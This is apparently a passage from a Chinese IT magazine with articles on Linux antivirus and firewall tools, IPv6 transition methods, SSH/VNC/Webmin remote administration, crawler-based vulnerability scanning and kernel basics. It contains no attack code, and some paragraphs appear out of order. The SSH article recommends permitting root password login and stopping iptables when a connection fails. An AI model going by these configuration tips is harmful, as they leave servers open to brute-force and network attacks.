其次，桌面用户也可以选择“tkantivir + AntiVir”组合。安装Tkantivir之前系统内应先安装AntiVir for Linux，下载地址为：http://www.hbedv.com。值得一提的是，AntiVir可以扫描最新的Linux病毒，它有不同平台的版本，尤其是对于Linux用户来说，即使不花钱也可以使用。安装完成，要去 http://www.antivir.de/ 申请一个注册码，这样就可以使用到AntiVir的全部功能。tkantivir下载地址为 http://www.sebastian-geiges.de/tkantivir，它提供了一个和AntiVir相配的图形化界面，可以运行在任何一个X-Window环境下面，包括KDE或Gnome等。通过“tkantivir + AntiVir”组合，就可以方便地查杀各种蠕虫病毒、引导区病毒、StarOffice宏病毒、电子邮件病毒等。查杀界面如图4所示。

> 清理Linux中的后门程序。在Linux中，后门程序可以非常隐蔽，清理也很困难，所以最简便的防范方法是不运行来路不明的应用程序。除此之外，还有一些方便实用的清理工具，比如Chkrootkit（http://www.chkrootkit.org）。通过使用Chkrootkit，可以检测系统的日志和文件，查看是否有恶意程序侵入系统，并且寻找关联到不同恶意程序的信号。最新版的Chkrootkit还可以检测出sniffers、Trojans、worms、rootkit等59种后门程序。

#### 2. 让日志管理更加直观明了

在桌面安全应用中，我们经常需要了解系统运行情况，这里就需要查看详细的系统日志了。日志不仅为用户提供了维护系统的参考，同时对攻击者也是一种威慑，因为Linux系统可以将入侵过程中必然发生的事件，比如用户登录、用户切换、权限改变等记录在案。Linux系统设置了一个专职记录事件的Syslog工具，能够详细记录系统每天发生的各种各样的事件，管理员可以通过日志文件检查错误产生的原因或者追踪攻击者的踪迹。在管理Syslog服务时，要确定系统是否运行了某个服务，可以用命令先测试一下，如“service syslog status”。当然，对于桌面用户来说，也提供了方便的安全操作方法，以Red Hat为例，单击“系统→管理→系统日志”就可以查看详细的系统日志，如图5所示。


图4

最后，用户还可以选择被称为“小红伞”的“Avira AntiVir Personal - FREE Antivirus”。这是一款来自德国的免费杀毒软件，以较低的系统占用率著称，个人用户可以免费使用。软件下载地址为：http://www.free-av.de/en/download/download_servers.php。软件大小为45MB，采用的是Bash脚本安装方式，安装时会提供实时病毒检测、邮件病毒提醒、更新代理服务器等配置向导，依照提示即可完成。该软件杀毒速度快，对压缩文档支持较好。软件图形界面采用Java方式实现，界面保持了和Windows版本一致精美的外观和操作方式，并提供了基本的设置和扫描操作。


图5

从图中可以看出，在Linux系统中，日志一般存储在“/var/log”或“/var/log/cups”等目录中，这里记录了系统维护和其他程序的日志文件。以“/var/log/boot.log”为例，该文件记录了开启或者关闭系统的信息，记录了系统在引导过程中发生的事件，即Linux系统开机自检过程显示的信息。

### 3. 让防火墙成为Linux超级保镖

在网络安全实践中，防火墙（Firewall）的基本功能是过滤并阻挡本地网络与Internet之间的数据传送。Linux提供了一个优秀的防火墙工具`iptables`，它完全免费，功能强大，使用灵活，可以对流入和流出的信息进行细化控制，能够在一台低配置机器上很好地运行。一般情况下，`iptables`已经包含在Linux发行版中，运行`iptables version`即可查看系统是否安装了iptables。如果系统没有安装iptables，则可从 http://www.netfilter.org 下载。使用中可以运行`man iptables`来查看所有命令和选项的完整介绍，或者运行`iptables --help`来查看一个快速帮助。`iptables`服务也可以在图形模式下开启，步骤为：依次打开“系统→管理→服务器设置→服务”，在弹出的“服务配置”界面中找到`iptables`选项，选中后单击“开始”按钮，即可启动防火墙服务；如果不想使用防火墙，点击“停止”按钮即可。如图6所示。


图6

> Linux下的Firestarter防火墙：Firestarter是一个免费防火墙软件，它用于帮助用户在Linux的图形用户界面快速构架一个小型防火墙，尤其适于PC桌面用户、小型工作站和家用Linux系统平台的安全防护。软件地址：http://firestarter.sourceforge.net/。软件运行时只占用很少的系统资源，普通用户通过安装向导可以轻松完成安装和设置。

#### 4. 让端口扫描也实现图形管理

在网络安全应用中，防火墙只是安全的起步，但是它仅仅局限于能够探测和阻挡攻击。因此对于桌面用户来说，还需要掌握一些图形扫描工具。`nmap`可以协助防火墙更好地工作，其设计初衷是为了系统管理员可以方便地了解网络运行情况，例如有多少台主机在运行、分别提供什么样的服务等，因此扫描速度非常快。软件最新版本为nmap V4.76，安装图形界面时还需要“Optional Zenmap GUI”软件，下载地址为：http://www.nmap.org。

从扫描技术看，nmap是众多端口扫描器中的极品，它支持种类繁多的扫描技术。比如Ping-scan命令就是`-sP`，在确定了目标主机和网络之后，即可进行扫描。如果以root来运行nmap，nmap的功能会更加强大，因为超级用户可以创建便于nmap利用的定制数据包。使用nmap进行单机扫描或是整个网络的扫描很简单，只要将带有`/mask`的目标地址指定给nmap即可。在日常安全应用中，nmap提供的Zenmap图形界面更适合桌面用户，如图7所示。


图7

总之，从长远来看，Linux系统将会是一个完美的通用客户端。它是免费软件开发的枢纽，这使得它成为通用、开放计算的中心点。当然，上面只是列举了一些比较常见的桌面安全应用。在实际应用中，还有许多类似的案例。比如，在数据传输应用中，通过整合gFTP和SSH应用，就可以形成一个完整的图形化加密传输方案。可以预见，随着Linux外观的不断改善，图形化的操作也将赢得越来越多的桌面用户。期待本文的“抛砖”能起到“引玉”的作用，给广大的Linux爱好者更多的惊喜。

### 前置知识点

关键词：网管｜IPv6协议｜IPv4协议


## IPv6过渡技术浅析

文／Whitebear @ Freebar Developer Group

在过去的10多年中，基于IPv4的Internet发展迅猛，已经深入到生活的每一个角落。实践证明，IPv4是一个成熟、稳定并成功的协议。但IPv4已经无法满足目前不断增长的网络应用需求，地址空间告罄、QoS支持较差、安全性不佳等问题严重困扰着它。1999年，研发6年的IPv6横空出世，为我们带来了一个全新的世界。

IPv6使用了全新的报文结构，因此可以支持巨大的地址空间。同时，它采用了全新的地址分配方式，使联网前的地址配置不再烦琐，很多情况下，甚至只要插上网线就可以实现互联，实现了真正的即插即用。相比于IPv4，IPv6还能更好地支持QoS，并且内置IPSec，能实现更安全的通信。IPv6使用全新的邻居发现协议取代了IPv4的ARP、ICMP路由发现、ICMP重定向等协议，使协议结构更加简单明了。IPv4报文头部中的选项部分被取消，新的扩展报头部分可以实现更强的扩展性，还可以显著提升路由器处理IPv6报文的速度。由于采用了路由报头和目标可选报头等扩展报头，因此IPv6还具有内置的可移动性。

因为目前IPv4的应用已经十分成熟，直接升级到IPv6会带来很多兼容性和其他方面的问题，因此，IPv4到IPv6的过渡就显得相当重要。如何使两个孤立的IPv6网络通过仍在使用IPv4的Internet进行通信，如何使使用IPv6的节点和使用IPv4的节点可以相互联系，将是本文要讨论的问题。

## IPv6过渡技术

比较成熟的IPv6过渡技术大致分为以下3类：

- 1. 双栈技术（Dual Stack，RFC2893）

双栈技术是在网络设备上同时运行IPv4和IPv6协议栈的技术。这样的设备可以同时与使用IPv6或IPv4的节点进行通信。这种技术同时也是所有过渡技术的基础。

- 2. 隧道技术（Tunnel，RFC2893）

隧道技术是将一种协议的报文封装在另一种协议的报文中进行发送的技术。使用隧道技术可以使一种协议通过另一种协议的网络进行通信。在IPv6过渡技术中，隧道技术即将IPv6报文封装在IPv4报文之中，通过现有的IPv4网络进行通信。在隧道入口，即一个IPv6网络边缘处将IPv6报文封装入IPv4报文中，IPv4报文的源地址和目的地址分别是隧道的入口和出口设备的IPv4地址。报文抵达隧道出口时，相应设备将把IPv6报文从IPv4报文中取出，并送达目的地。这种技术非常容易实现，主要应用于两个孤立IPv6网络通过公共IPv4网络进行通信的场合，不能实现IPv6和IPv4节点的互通。

- 3. 网络地址和协议转换技术（NAT-PT，Network Address Translation - Protocol Translation）

网络地址和协议转换技术是一种用于IPv6和IPv4节点间相互通信的技术。它通过对报文进行修改达到使IPv4和IPv6节点互通的目的，是3种基本技术中最复杂的一种。

## IPv6网络互通（隧道技术）

- 1. IPv6 over IPv4 手动隧道

IPv6 over IPv4手动隧道是所有隧道技术中最为简单的一种。它一般用于通过IPv4网络建立两个IPv6网络边缘路由器之间的永久连接，即—个永久的通信链路，每一条链路都是一个隧道。两个边缘路由器之间必须互相知道对方过渡 IPv4 地址，以作为隧道的出口和入口地址。一个 IPv6 网络上的报文在传递到另一个 IPv6 网络上时，将在隧道入口处被封装，成为一个承载 IPv6 报文的 IPv4 报文。报文在隧道出口处解封，重新投放到网络上。

### 2. IPv4兼容IPv6自动隧道

自动隧道技术用于完成一点到多点的连接，而不像手动隧道那样只能建立两个固定 IPv6 节点间的永久链路。为了实现自动建立隧道，IPv4 兼容 IPv6 自动隧道技术使用了一组特殊的地址，即 IPv4 兼容 IPv6 地址。这组地址有一个固定前缀，即 0:0:0:0:0:0，随后是 32 位 IPv4 地址，这段 IPv4 地址即为隧道的终点。IPv4 兼容 IPv6 自动隧道只能允许两个 IPv6 节点通过 IPv4 网络进行通信，无法实现两个 IPv6 网络岛屿间的通信。这种隧道可以与任意多个节点建立联系，但其最大的缺点在于使用了固定的地址前缀，即让所有节点处于同一个 IPv6 网段之中，无法做到报文转发。

### 3. 6to4隧道

6to4 隧道是 IPv4 兼容 IPv6 自动隧道的一种扩展。它使用 2002:x.x.x.x:yyyy:yyyy:yyyy:yyyy 作为 IPv6 地址，其中 x.x.x.x 为隧道终点的 IPv4 地址，后面的 yyyy:yyyy:yyyy:yyyy 则可由用户自行定义。6to4 隧道克服了 IPv4 兼容 IPv6 自动隧道不能进行报文转发的缺点，允许多个 IPv6 孤岛通过 IPv4 网络进行连接。

##### 4. ISATAP（Intra-Site Automatic Tunnel Addressing Protocol）隧道

ISATAP 是一种可以进行地址自动配置的自动隧道技术。在这种隧道中，IPv6 网络将 IPv4 网络视作“非广播的点到多点的链路”，通过下层的 IPv4 网络承载 IPv6 的 ND（Neighbor Discovery）协议，从而实现地址的自动配置。ISATAP 也使用一组特殊的 IPv6 地址 ::0:5EFE:x.x.x.x。这个地址的前 64 位由路由器分配，x.x.x.x 则是节点的 IPv4 地址。

## IPv6与IPv4网络互通

##### 1. SIIT（Stateless IP/ICMP Translation）

SIIT 技术对 IPv4 网络中的网络地址没有限制，但 IPv6 网络中节点的地址必须是 ::FFFF:0:x.x.x.x，其中 x.x.x.x 是该 IPv6 节点在 IPv4 节点中的地址。IPv6 节点发送给 IPv4 节点的报文，在经过协议转换设备时会自动被翻译成合法的 IPv4 地址并投放到网络。IPv4 节点访问 IPv6 节点时，协议转换设备会给 IPv4 节点分配一个 IPv6 映射地址，以便实现数据的收发。这种方案无法进行地址复用，当分配给协议转换设备的 IPv4 地址少于 IPv6 节点数量时将会产生问题。

##### 2. NAT-PT（Network Address Translation-Protocol Translation）

在 IPv4 时代，我们就很熟悉 NAT 技术。因为网络地址的紧缺，我们不得不把一些节点放在内网中，通过协议转换使它们公用一个 IP 地址与外网通信。这里的 NAT-PT 技术事实上是 SIIT 技术的扩展。它使用 NAT 使多个 IPv6 节点在访问 IPv4 节点时能公用一个 IPv4 地址，从而有效地解决了 IPv4 地址短缺的问题。但这种方案会使 IPv4 网络无法主动发起与 IPv6 节点的通信。

### 3. 带有应用层网关的NAT-PT

对于一些在报文净载荷中包含 IP 地址的应用，如 IPv4 的 DNS 等，仅仅通过 NAT-PT 依然无法工作，而必须使用应用层网关对报文净载荷中的地址进行转换才可以使之正常运行。使用这种技术，可以让无论 IPv4 节点还是 IPv6 节点均可以主动发起连接。

#### 总结

网络全面 IPv6 化是未来的趋势，但 IPv4 经过 10 多年的积累，已经拥有了相当数量的上层应用。为了不影响网络的正常运作，必须在 IPv4 到 IPv6 过渡期内应用一种或多种有效的过渡方案使网络平滑过渡。为此，如何从种类繁杂的过渡方案中进行选择，就成为了摆在所有网络管理人员面前的问题。本文主要介绍了几种基础的或较为常用的过渡方案，希望能为广大网络管理人员提供帮助。

前置知识：Linux

关键词：网管、远程管理、SSH


## Linux系统远程管理完全攻略

文／图 Winbo

随着互联网的高速发展以及 Linux 企业应用的成熟，Linux 正在被广泛地应用于服务器领域，因此，如何实现 Linux 的远程管理也开始成为网络管理员的首要任务。对于 Windows 而言，远程控制应该是很常用的技术。当操作者使用主控端电脑控制被控端电脑时，就如同坐在被控端电脑的屏幕前一样，可以启动被控端电脑的应用程序，可以使用被控端电脑的文件资料，甚至可以利用被控端电脑的外部打印设备（打印机）和通信设备（调制解调器或者专线等）来打印和访问互联网。随着 Linux 的逐渐普及，这样的应用也开始成为网络管理员的“家常便饭”。目前，应用于 Linux 的远程连接技术主要有 3 种：基于命令行的方式、基于管理端软件的图形界面方式和基于 Web 的管理方式。下面，按照循序渐进的思路对这 3 种管理方式进行梳理。

OpenSSH 的原因是，它会自动把 DISPLAY 变量转发给客户机器。换一句话说，如果在本地机器上运行 X 窗口系统，并且使用 ssh 命令登录到了远程机器上，当用户在远程机器上执行一个需要 X 窗口的程序时，它就会显示在本地机器上。

言归正传，现在开始在 RedHat AS4.0 操作系统上设置 SSH 服务器，首先需要准备以下软件，分别是“openssh-3.9p1-8.RHEL4.1”、“openssh-askpass-3.9p1-8.RHEL4.1”、“openssh-clients-3.9p1-8.RHEL4.1”、“openssh-server-3.9p1-8.RHEL4.1”以及“openssh-askpass-gnome-3.9p1-8.RHEL4.1”。在设置过程中，需要完成以下典型应用：将该机作为 SSH 服务的服务器端并启动 SSH 服务，将其服务端口改为 1500，只允许 SSH2 协议工作，准备连接的最大允许连接数为 10。在此配置过程中，主要配置文件为“/etc/ssh/sshd_config”，以下所有操作均在 SSH 服务器上进行。具体步骤如下：

### 基于命令行的方式：快速设置SSH服务器

通常情况下，命令行的管理方式适合进行初始化、网卡配置等基本操作。Telnet 和 FTP 方式使用纯文本口令，并被明文发送，但这些信息可能会被截取，口令可能会被检索，未经授权的人员可能会使用截取的口令登录系统而对系统造成危害。于是，基于 SSH 的客户端软件应运而生，其中最常用的是 OpenSSH。

OpenSSH 是 SSH 协议的免费开源实现，它用安全、加密的网络连接工具代替了 telnet、ftp、rlogin、rsh 和 rcp 等工具。所有使用 OpenSSH 工具的通信，包括口令都会被加密。

- 1. 步骤1：查看 SSH 服务器包是否安装。

```bash
[root@localhost ssh]# rpm -qa | grep openssh
```

- 2. 步骤2：如果提示尚未安装，则需要安装 SSH 服务器软件包。

```bash
[root@localhost RPMS]# rpm -ivh openssh-* --force
```

- 3. 步骤3：修改“/etc/ssh/sshd_config”配置文件。首先查看默认设置的“/etc/ssh/sshd_config”文件，参考命令为：

```bash
[root@localhost ssh]# grep -v '^#' /etc/ssh/sshd_config
```

按要求修改后的 /etc/ssh/sshd_config 文件如下：

```conf
Port 1500
Protocol 2
SyslogFacility AUTHPRIV
PermitRootLogin yes
PasswordAuthentication yes
ChallengeResponseAuthentication no
GSSAPIAuthentication yes
GSSAPICleanupCredentials yes
UsePAM yes
X11Forwarding yes
MaxStartups 10
Subsystem sftp /usr/libexec/openssh/sftp-server
```

### 步骤4：重启 SSH 服务，并测试是否启动成功。

```bash
[root@linux ~]# service sshd restart
启动 sshd [确定]
停止 sshd [确定]
[root@linux ~]# ssh root@172.16.100.218 -p1500
The authenticity of host '172.16.100.218' can't be established.
RSA key fingerprint is ...
Are you sure you want to continue connecting (yes/no)? yes
Warning: Permanently added ...
root@172.16.100.218's password:
Last login: Tue Feb 21 10:27:11 2006 ...
[root@linux ~]# w
```

在配置过程中，如果出现远程 SSH 服务器已经启动成功，但无法连接到远程 SSH 服务器的情况，可以考虑远程 SSH 服务器对应主机的防火墙是否关闭。如果防火墙没有关闭，使用 `service iptables stop` 命令关闭即可。

### 基于图形界面的方式：轻松搞定VNC服务器

在日常应用中，图形管理方式更加直观，比较常用的有 VNC、X 显示管理器、Freenx 等。其中，VNC（Virtual Network Computing，虚拟网络计算）技术是广泛应用于程序员和管理员的“生产力工具”。

网络计算技术是广泛用于程序员和管理员的“生产力工具”。VNC 要有个服务端的守护进程，为每个共享的桌面运行，是客户端/服务器架构。现在，假设管理员要求通过 X Windows 方式远程管理 Linux 服务器，通过 VNC 客户端进行连接。本例中操作系统为 Red Hat AS 4.0，服务器软件包为 vnc-server-4.0-8.1.i386.rpm、vnc-4.0-8.1.i386.rpm，实验配置文件及命令为 `/usr/bin/vncpasswd`、`/usr/bin/vncserver`、`/usr/bin/vncviewer` 和 `/root/.vnc/xstartup`。

### 步骤1：安装 VNC 服务器包。

```bash
[root@linux RPMS]# rpm -ivh vnc-* --force
Preparing...                [100%]
1:vnc-server                [ 50%]
2:vnc                       [100%]
```

### 步骤2：创建 VNC 服务器端口，并修改 VNC 配置文件。

```bash
[root@linux .vnc]# vncserver
You will require a password to access your desktops.
Password:
Verify:
New 'linux:1 (root)' desktop is linux:1
Creating default startup script /root/.vnc/xstartup
Starting applications specified in /root/.vnc/xstartup
Log file is /root/.vnc/linux:1.log

[root@linux .vnc]# vi xstartup
[root@linux .vnc]# cat xstartup
#!/bin/sh
# unset SESSION_MANAGER
# exec /etc/X11/xinit/xinitrc
[-x /etc/vnc/xstartup] && exec /etc/vnc/xstartup
[-r $HOME/.Xresources] && xrdb $HOME/.Xresources
xsetroot -solid grey
vncconfig -iconic &
xterm -geometry 80x24+10+10 -ls -title "$VNCDESKTOP Desktop" &
startkde &
```

步骤3：测试。首先打开 VNC Viewer 客户端工具，输入 VNC 服务器 IP 地址及端口号，输入 VNC 用户登录密码，即可成功登录界面，如图1所示。


图1

### 基于Web的管理方式：巧妙配置Webmin服务器

在配置 Linux 操作系统时，很多人的第一个感觉就是服务太多，而且每一种服务都不容易配置。如果管理员在外地出差，只需要打开浏览器就可以轻松管理自己的服务器，就可大大减少工作量，而且可以达到比较好的安全效果。其实 Linux 上有一套 Web 界面的管理工具 Webmin，可以帮助系统管理者通过 Web 界面轻易管理好 Linux 服务器，甚至是远程配置目前 Linux 上运行的所有服务。

现在，假设管理员要求通过 Web 方式远程管理 Linux 服务器。系统及软件环境采用了 Red Hat AS 4.0 操作系统，服务器软件包为 webmin-1.250.tar.gz（源码包），配置文件及命令为“/tmp/webmin-1.250/setup.sh”和“/etc/webmin/uninstall.sh”。具体步骤如下：

- 1. 步骤1：将源码包解压缩，解包到 /tmp 目录。

```bash
[root@linux ~]# tar zxvf webmin-1.250.tar.gz -C /tmp/
```

- 2. 步骤2：安装 Webmin 软件包。

```bash
[root@linux ~]# cd /tmp/webmin-1.250/
[root@linux webmin-1.250]# ./setup.sh
```

输入该命令后，按照提示输入 webmin 默认端口、登录用户名、密码，同时设置是否在 Linux 引导时启动 Webmin 等参数。

步骤3：测试。在 Linux 中打开 Firefox 浏览器，在 Webmin 客户端上输入 Webmin 服务器 IP 地址及端口号。然后，输入用户名及登录密码，点击“login”按钮登录。在登录成功界面点击黑框中按钮，进行 Webmin 相关配置。点击黑框中按钮，更改 Webmin 管理界面语言；选择简体中文语言更改成功界面。在 Webmin 的系统配置栏目中，管理员可以远程对系统文件、系统日志、用户及组、进程、软件包、cron 等进行管理。

现在，列举一个比较典型的远程管理实例。Webmin 提供了对定时进程管理的图形化配置，登录进入 Webmin 以后，进入“System（系统）”配置模块，选择“进程管理器”即可看到所有的进程，它们是按照进程号 PID 的大小顺序排列显示的。在最上端有几个链接：用户、内存和 CPU 分别用来使用不同的属性顺序显示进程。“搜寻”链接用来搜索某个特定的进程。单击该链接，在出现的界面中用户可以指定进程属主、进程的工作目录、进程打开的文件、使用 CPU 的百分比、打开的端口等属性来搜索进程。如图2所示。


图2

通过上述工具的配合演示，可以看出 Linux 下的远程管理也十分方便。随着 Linux 系统的更加广泛应用，类似的系统远程管理也会更加普及。当然，对于经常在此环境中工作的网络管理员来说，上述管理方式的灵活运用，将会大大减轻日常工作量。这样，就可以在弹指之间，对整个网络状况了如指掌。

前置知识：无

关键词：网管、网络爬虫、漏洞检测

### 利用“爬虫”技术进行网络漏洞安全检测


漏洞是一个让人敏感而又兴奋的名词，它是计算机软件（包括硬件固化指令、操作系统、应用程序等）自身的固有缺陷或因使用不当造成的配置缺陷，这些缺陷可能被黑客利用，对计算机系统进行入侵或攻击。通常意义上，我们所指的漏洞是可被攻击者远程利用的漏洞，这些漏洞的危害往往都是大范围的，由此造成的经济损失也是巨大的，尤其是近两年来针对 Web 应用安全漏洞的攻击正在逐渐成为主流的攻击方式。漏洞的危害越来越严重，归根结底，就是系统漏洞的存在并被攻击者恶意利用。软件由于在设计初期考虑不周导致的漏洞造成的问题始终没有得到很好的解决，人们依然用“亡羊补牢”的方法来度过每一次攻击，利用漏洞的攻击成为人们心中永远的痛。

能够实时显示扫描过程进行状态、被扫描对象信息、漏洞信息，具备灵活的用户自定义安全策略功能；进行扫描时，应对网络性能和被扫描对象主机性能不会产生明显影响；自动分类漏洞的危险级别，并对所有发现的漏洞逐个解释。扫描之后的漏洞信息应包括漏洞的详细说明、补救方法、补丁文件的获取方式、建议的配置策略，以及国际安全组织关于该漏洞的说明或连接等。

#### 被动防御与“爬虫”思路

事实证明，绝大多数的网络攻击事件都是利用厂商已经公布的、用户未及时修补的漏洞。不过，要从整体上解决网络漏洞问题，还必须从被动式防御说起。

##### 1. 被动式防御存在的问题

在日常应用中，网络漏洞扫描系统必须解决一些典型的问题，但这些问题大都比较被动。比如，应具备对操作系统（Windows、Unix、Linux 等）、数据库（Oracle、MS-SQL、MySQL 等）、网络设备（路由器等）、安全设备（防火墙等）、特定应用程序等多种系统进行漏洞扫描评估的能力；应能够自动检测目标对象的操作系统并提供精确的端口扫描功能。

联想到我们经常使用的搜索引擎、智能判断等，以及许多杀毒厂商提出的杀毒概念，能否利用搜索技术来完善这个思路呢？

##### 2. 从爬虫技术到漏洞测试

网络爬虫源自 Spider（或 Crawler、robots、wanderer）等的意译。网络爬虫是一个功能很强大的自动提取网页的程序，它为搜索引擎从万维网下载网页，是搜索引擎的重要组成部分。它通过请求站点上的 HTML 文档访问某一站点。同时，它遍历 Web 空间，不断从一个站点移动到另一个站点，自动建立索引，并加入到网页数据库中。网络爬虫进入某个超文本时，利用 HTML 语言的标记结构来搜索信息及获取指向其他超文本的 URL 地址，可以完全不依赖用户干预实现网络上的自动“爬行”和搜索。网络爬虫在搜索时往往采用一定的搜索策略。传统的网络爬虫技术主要应用于抓取静态 Web 网页，随着 AJAX/Web2.0 的流行，抓取 AJAX 等动态页面也已成为可能。

那么，能否利用爬虫技术来解决漏洞测试问题呢？答案是肯定的。为了这个问题，这里对开源系统 HarvestMan 进行了一些探索性的研究。HarvestMan 的官方网站是 http://www.harvestmanontheweb.com ，它可以根据用户定义的一些规则从指定的 Web 站点下载文件。不过，HarvestMan 的官方网站似乎比 Google 开源平台的更新要慢一拍。目前，HarvestMan 的最新代码都可在 Google 开源平台找到，网站地址为 http://code.google.com/p/harvestman-crawler 。HarvestMan 目前的最新版本为 V2.0.4，相关界面如图 1 所示。


图1

> 关于 Google Code，Google Code 是谷歌为了方便程序员而做的在线搜索系统。在这个系统中，可以搜索代码、查看源码。其中，http://code.google.com/hosting 是谷歌专门用来做在线版本控制的系统，功能齐全，并支持最新的版本管理工具 SVN。本文所讲解的 HarvestMan 即可在此找到。

#### 让爬虫成为安全检测“助理”

基于上述思路分析，我们可以尝试采用模拟黑客攻击的方式，对目标系统可能存在的安全漏洞进行检测。这里结合 HarvestMan 代码的设计思路，对整体项目的实现进行梳理。

##### 1. 模拟黑客攻击的测试结构设想

传统的网络安全一直倾向于采用被动式的防御策略，如防火墙、入侵检测系统等，其关注焦点也集中在网络底层，而忽略了 Web 应用程序层的安全。有许多调查研究论及了病毒、网络攻击、公共缺陷公布、垃圾邮件和网络钓鱼企图等，但很少关注位于防火墙和传统网络安全范畴之外的基于 Web 的应用程序的安全。

可见，网络漏洞安全的需求是多方面的。为了解决这些问题，我们需要一个更加主动、积极的安全检测构思。在这个构想实现之前，我们首先要了解一下软件中经常需要使用的错误注入技术。众所周知，一般软件的代码量都动辄数以百万行计，而诸如操作系统和大型工程软件，其代码量更是达到了数千万行。由于软件的复杂性，程序员的水平和意识等方面都存在限制，因此，不可避免地会带来大量的软件安全隐患。在这种情况下，错误注入技术应运而生，它最初是为了验证硬件系统设计的正确性，及软件系统的测试和评价软件组件在失效情况下所产生的后果。当然，也可以将其引入到庞大的网络应用中，因此，这里构想的思路，和该技术的初衷不谋而合。

> 错误注入系统的构成。一般来说，错误注入系统包括控制器、错误注入器、错误管理器、监视器、监控数据管理器、触发器和用户接口。其中，控制器负责控制各个子系统的运行和协调它们的行为；错误注入器负责将错误数据注入到待测系统中；错误管理器负责对错误进行管理；监视器则监视目标系统的状态和响应，看它是否如所预期的那样运行；触发器负责触发目标系统；用户接口接受用户以命令行方式发送的注入命令，并传递给控制器。

从这个基础构架入手，在网络安全检测中，采用本模式有许多优势。第一，它使得在测试环境改变时重写注入部件非常方便，只有实体注入器的代码需要修改。第二，便于扩展。当需要加入新的错误类型时，只需创建一个抽象基类（Injector）的子类即可。当然，注入管理器要能识别出这个新的错误类型。第三，支持多线程。当测试环境从单线程变成多线程时，只需要改变注入管理器即可。第四，它使得每个模块和其他模块的交互都达到了最小化。这里面，一个很重要的应用就是“爬虫”技术。网络爬虫可以通过对整个 Web 按主题分块采集，并将不同块的采集结果整合到一起，以提高整个 Web 的采集覆盖率和页面利用率。同时，网络爬虫还应尽可能多地采集信息页面，尽可能快地爬行、采集尽可能多的与预先定义好的主题相关的网页，通过规则的定义和比较，发现网络漏洞的问题所在。很多开源项目本身就有非常优秀的创意，HarvestMan 的实现思路就具有很好的参考性。

##### 2. 网络爬虫检测的设计与测试

一个 Web 应用程序安全漏洞测试工具至少要有一个网络爬行构件来爬行网页，还要有一个错误注入构件来注入数据。在被注入的数据方面，最重要的就是如何构造一个丰富的注入模式库。根据以上分析，可以大概得出以下漏洞测试总体结构，如图 2 所示。


图2

在这个结构图中，箭头表示了整个系统的控制流方向。首先，在测试时，通过“用户接口”层与“爬虫”系统进行交互，而能够与“用户接口”发生交互的则是“流程管理模块”。在接受了用户要求爬行或注入的命令后，“流程管理模块”向配置模块请求配置信息。然后，或者调用“爬行模块”进行网络爬行，或者调用“注入分析模块”执行注入。具体对爬行或注入的细节要求除了由“流程管理模块”从配置模块读入外，还可以由用户在命令行中指定。之后，“爬行模块”在被触发后，开始执行所要求的网络爬行。

以一定的模式向被测系统发送畸形的 HTTP 请求，并根据响应数据来分析本次注入是否成功。该项目的最新代码可以到 http://code.google.com/p/harvestman-crawler 下载。也就是说，可以发现被测的 Web 站点是否存在这种漏洞。如果用户要求多线程机制，则生成一个线程池，激活其中所有的线程进行爬行。和常见的搜索引擎类似，得到的 URL 数据被放入缓存，下载的 Web 页面数据除了放入缓存之外，还要传送给“数据访问模块”。在爬行过程全部结束之后，所有的 URL 才传送给“数据访问模块”。之所以区别对待，是因为页面数据的内容相对要多，因此页面数据在分析和抽取链接之后应该尽快地被清出缓存队列，否则很容易造成内存不足，影响性能。

此外，注入分析组件的功能也很重要，它可以根据用户的要求让数据访问组件从磁盘上读出待注入的 URL 以及可供注入的字符和字符串来构造一个请求，放入请求缓存队列。若用户要求多线程的注入，则请求缓存中的请求就被一个个的线程取出并向服务器发送。这些请求都是通过 HTTP 代理来发送的，服务器返回的响应数据也被 HTTP 代理截获并传递给响应数据分析器。响应数据分析器根据一定的标准判断本次注入是否成功，若是成功的，则把本次请求和响应通过数据访问组件放入报告数据库，否则就简单地丢弃这个响应对象。

通过 Google Code 网站下载相关代码并运行后，能够很快识别被测试网站的源代码泄露、目录遍历、命令行注入漏洞等漏洞。篇幅所限，这里就不进行详细的代码分析了。不过值得一提的是，Google 的开源站点提供了丰富的安装、测试以及总结性资料，并对相关代码进行了详细的注释。对于安装或测试中的难题，还可以通过该开源项目的维基（Wiki）、焦点问题（Issues）等渠道获取帮助。总之，网络爬虫技术的研究对漏洞检测也具有十分重要的意义，在关注网络安全技术的同时，还应重点关注网络爬虫所使用的相关策略。这样，就能够深入系统内部并主动出击，提高漏洞检测的准确性，从而真正地在网络安全工作中防患于未然。

前置知识：Linux

关键词：网管、内核、I/O

## Linux内核编译一点通


文／图 Winbo

说道 Linux 内核，不少用户可能会有一点疑问：“这个东东好像只有 Linus Torvalds 这样的高手才会关心吧！”“或者对这个根本就不以为然：‘我们根本不需要了解它，会用操作系统不就可以了吗？’”事实上，在技术飞速发展的今天，国内用户面临着很尴尬的局面。一方面网络安全日益细分化，菜鸟轻松培训几天即可针对操作系统实施快速攻击；另一方面，长期处于技术垄断地位的 Windows 操作系统，其源程序代码是不公开的。在这种情况下，要深入地学习操作系统安全知识，仅仅了解操作系统的外特性和操作方法，就显得有些捉襟见肘了。“正本清源”，为了对计算机有一个较为整体的认识，特别是对计算机硬件与软件如何配合工作等一些操作系统的底层知识有较深刻的认识，我们就需要了解一些操作系统内核的基本知识。

开放的 Linux 内核为深入学习操作系统原理、了解高性能计算机系统提供了一个优秀的平台。对于普通的用户来说，一个简单易懂的内核是学习计算机安全知识的捷径。Linux 内核版本发布的官方网站是 http://www.kernel.org ，通过该站点可以下载最新的代码。这里以目前的最新稳定版本 2.6.30.4 为例，对 Linux 内核的相关知识进行讲解。

### 初识Linux内核

Linux 大部分应用软件是遵循 GPL（General Public License，通用公共许可证）而设计的，用户可以获取相应的源程序代码。在 http://www.kernel.org 网站可以发现，截至到目前（2009-08-04）为止，稳定的最高版本是 2.6.30.4，最新发布的许多操作系统就采用了该内核。

### 1. Linux内核版本基础知识

由于 Linux 的源程序是完全公开的，任何人只要遵循 GPL，就可以对内核加以修改并发布给他人使用。由于参与开发的人员比较多，为了确保这些无序的开发过程能够有序地进行，Linux 采用了“双树系统”结构。在这个结构中，一个树是稳定树（stable tree），另一个树是非稳定树（unstable tree）或者开发树（development tree）。在开发时，一些新特性、实验性改进等都将首先被用于开发树中。随着测试的进行，功能的完善，如果在开发树中所做的改进也可以应用于稳定树，那么经过开发树的测试以后，在稳定树中将进行相同的改进。就像一粒逐渐成长的小树苗，一旦开发树经过了足够的发展，开发树就会成为新的稳定树。

